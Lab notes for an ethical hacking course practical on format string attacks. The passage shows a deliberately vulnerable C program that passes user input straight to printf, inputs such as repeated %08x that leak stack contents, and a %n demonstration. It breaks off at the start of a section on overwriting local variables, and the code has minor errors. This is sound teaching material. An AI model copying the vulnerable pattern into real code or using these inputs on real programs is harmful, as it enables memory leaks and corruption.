 # EHD Practical 15 - Format String Attack

###### tags: #EHD 

## Table of Contents
```toc
```

## Looking at Stack Contents Through Format String Attacks
**On Win10 VM**
1. Create the following C program called `formatstr.c`
```c
#include <stdio.h>
int main(int argc, char *argv[]) {
	printf(argv[1])
	return 0;
}
```

2. Compile the program
```
gcc -o formatstr1 formatstr1.c
```

3. Run the program with the argument `hello`
```
./formatstr1 hello
```

4. Run the program with the argument `hello%s`
```
./formatstr1 hello%s
```

5. Run the program with the argument `hello%08x`
```
./formatstr1 hello%08x
```

6. The data that appears after the string `hello` comes from the top of the stack
7. To see more of the stack, run the program with more format parameters
```
./formatstr1 %08x.%08x.%08x.%08x
```

8. To see even more content from the stack, use a Perl or Python script to generate the format parameters
```
./formatstr1 $(perl -e 'print "%08x." x 40')
./formatstr1 $(python2.7 -c 'print("%08x" * 40)')
./formatstr1 $(python3.6 -c 'print("%08x" * 40)')
```

## Format Parameter %n
> The format parameter %n will write the number of characters that have been written by the function so far to the specified variable address

**On Win10 VM**
1. Create the following C program `formatstr2.c`
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	return 0;
}
```

2. Compile and run the program without parameters. Count should have the value 5
3. Edit the program to add the following two lines:
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	printf("12345 67890%n\n",&count);
	printf("Count :%d\n", count);
	return 0;
}
```

4. Compile and run the program without parameters. The variable count should have the values 5 and 11
5. Edit the program to remove `&count` from the third line
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	printf("12345 67890%n\n"); // remove &count
	printf("Count :%d\n", count);
	return 0;
}
```

6. Run the program without parameters. The program will attempt to write the number 11 into the address at the top of the stack. This may cause the program to crash

## Using Format String Vulnerabilities to Change the Values of Local Variables
1. Create the following C program `formatstr3.c`